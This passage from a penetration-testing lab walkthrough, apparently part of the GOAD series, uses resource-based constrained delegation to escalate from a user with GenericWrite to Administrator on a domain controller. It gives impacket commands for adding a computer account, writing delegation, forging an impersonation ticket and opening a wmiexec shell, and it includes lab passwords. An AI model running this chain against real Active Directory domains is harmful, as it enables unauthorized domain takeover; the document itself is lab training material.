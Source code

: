 - You can find this in the lab when you look at the acl on users.

![deleg_find_acl.png](/assets/blog/GOAD/deleg_find_acl.png)

- We can see that stannis.baratheon got a generic Write on kingslanding

- The RBCD exploitation append with the following commands :

- Create a computer X (rbcd$)

```bash
addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/stannis.baratheon:Drag0nst0ne'
```

- Add delegation write on our target from X (rbcd$)

```bash
rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'write' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
```

- Now X (rbcd$) got delegation permission on our target, you can now do an s4u2self query followed by an S4u2proxy.
- This will result in an administrator permission on kingslanding.

```bash
getST.py -spn 'cifs/kingslanding.sevenkingdoms.local' -impersonate Administrator -dc-ip 'kingslanding.sevenkingdoms.local' 'sevenkingdoms.local/rbcd$:rbcdpass'

export KRB5CCNAME=/workspace/rbcd/Administrator@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
wmiexec.py -k -no-pass @kingslanding.sevenkingdoms.local
```

![deleg_rbcd_exploit.png](/assets/blog/GOAD/deleg_rbcd_exploit.png)

- After the exploit a little clean up of the lab, flush the rbcd entry and delete the computer account with a domain admin:

```bash
rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'flush' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/cersei.lannister:il0vejaime' -delete
```


## Ressources - go further

- [https://www.thehacker.recipes/ad/movement/kerberos/delegations](https://www.thehacker.recipes/ad/movement/kerberos/delegations)
- [https://www.notsoshant.io/blog/attacking-kerberos-constrained-delegation/](https://www.notsoshant.io/blog/attacking-kerberos-constrained-delegation/)
- [https://sensepost.com/blog/2020/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/](https://sensepost.com/blog/2020/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/)
- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse)
- [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/delegation-abuse](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/delegation-abuse)
- And i recommend you to take a look at charlie's talk about delegation : [https://www.thehacker.recipes/ad/movement/kerberos/delegations#talk](https://www.thehacker.recipes/ad/movement/kerberos/delegations#talk)


Next time we will have fun with ACL : : ([Goad pwning part11]({% link _posts/2022-12-07-GOADv2-pwning-part11.md %})) :)

